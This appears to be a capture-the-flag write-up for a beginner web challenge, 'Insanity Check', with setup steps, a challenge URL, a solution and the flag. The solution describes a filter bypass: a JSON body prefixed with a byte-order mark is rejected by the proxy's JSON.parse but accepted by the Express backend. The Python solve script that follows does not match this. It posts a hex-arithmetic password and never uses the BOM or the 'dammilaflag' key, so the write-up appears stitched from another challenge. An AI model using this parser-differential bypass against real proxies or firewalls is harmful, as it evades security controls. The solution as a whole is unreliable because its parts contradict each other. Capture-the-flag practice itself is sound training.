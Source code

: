 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

* The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
* The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
  
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:
```js
\ufeff{"dammilaflag": true}
```

Web frameworks often allow JSON values to be added a BOM at the beginning. For example, Fastify and Express check a BOM at:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

On the other hand, JSON.parse does not allow a BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ dammilaflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
